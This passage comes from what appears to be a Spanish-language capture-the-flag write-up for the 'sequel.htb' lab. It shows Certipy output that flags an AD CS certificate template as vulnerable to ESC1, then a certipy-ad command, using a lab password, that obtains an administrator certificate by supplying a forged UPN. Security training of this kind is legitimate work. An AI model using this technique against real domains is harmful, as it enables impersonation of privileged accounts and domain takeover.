 ```bash
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Administrator
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
        Write Property Principals       : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

### ESC1 exploitation case with certipy-ad

La vulnerabilidad `ESC1` en `ADCS` permite que cualquier usuario del dominio solicite un certificado en su propio nombre y lo use para autenticarse como otro usuario con más privilegios. Esto sucede cuando una plantilla de certificados está configurada de forma insegura, permitiendo que el solicitante defina manualmente el `Subject Alternative Name (SAN)` y que la clave privada sea exportable. Si la plantilla también permite la autenticación de cliente, un atacante puede obtener acceso no autorizado dentro del dominio.

{% embed url="https://kogre.gitbook.io/pentest-notes/windows-pentesting/active-directory/active-directory-certificate-services-adcs#esc1" %}

Al explotar ESC1, solicitamos un certificado usando la plantilla vulnerable `UserAuthentication` y configuramos el UPN como `administrator@sequel.htb`. Esto nos permite autenticar como el administrador del dominio. La solicitud fue exitosa, generando un certificado que ahora podemos usar para autenticarnos. El archivo resultante, `administrator.pfx`, contiene la clave privada y el certificado necesario para la autenticación.

```bash
❯ certipy-ad req -u Ryan.Cooper@sequel.htb -p "NuclearMosquito3" -ca sequel-DC-CA -template UserAuthentication -upn administrator@sequel.htb -dc-ip 10.10.11.202
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 15
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
